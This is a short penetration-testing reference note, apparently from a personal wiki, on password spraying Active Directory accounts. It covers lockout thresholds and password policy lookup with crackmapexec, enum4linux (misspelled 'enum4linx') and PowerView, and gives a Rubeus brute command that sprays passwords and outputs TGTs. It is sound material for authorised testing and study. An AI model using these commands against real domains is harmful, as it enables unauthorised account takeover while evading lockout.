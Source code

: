 # Active Directory Password Spraying

> Spray common passwords for known usernames in an Active Directory environment.

---

## Minimum Password Length

Active Directory's default minimum password length is 7 characters. Make sure the passwords you try at at least that long.

If you have a domain user's credentials, [[password-spraying#Determine the Domain's Password Policy|determine the domain's password policy]].

---

## Account Lockout Threshold

Active Directory's default number of incorrect login attempts before lockout is 10 attempts. Generally don't try more than 5-7 attempts.

If you have a domain user's credentials, [[password-spraying#Determine the Domain's Password Policy|determine the domain's password policy]].

---

## Determine the Domain's Password Policy

You need a domain user's credentials for these.

```bash
crackmapexec smb $DOMAIN_CONTROLLER_HOSTNAME_OR_IP -u $USERNAME -p $PASSWORD --pass-pol
```

```bash
enum4linx -u $USERNAME -p $PASSWORD -P $DOMAIN_CONTROLLER_HOSTNAME_OR_IP
```

From [[powerview|PowerView]]:

```powershell
(Get-DomainPolicy).SystemAccess
```

---

## [[statistically-likely-lists|Statistically Likely Password Lists]]

---

## Password Spray an Active Directory Domain

### From Linux:

[[crackmapexec#Pass a domain credential to a target to check for access|Password spray an Active Directory domain]].

### From a domain-joined Windows machine:

```powershell
Rubeus.exe brute [/domain:$DOMAIN] [/users:$USERS_FILE] [/password:$PASSWORD] [/passwords:$PASSWORDS_FILE] [/outfile:$OUTPUT_FILE] [/noticket]
```

- `/domain`: if omitted, uses the current domain
- `/users`: if omitted, tries current domain users
- You need either `/password` or `/passwords`
- If you don't use `/outfile`, the results will be written to `stdout`.
- `/noticket`: if omitted, a corresponding TGT will be written to `stdout` for each successful credential discovered. If present, it will be written to `.\$USERNAME.kirbi` where `$USERNAME` is the username of the user whose credential was discovered. 
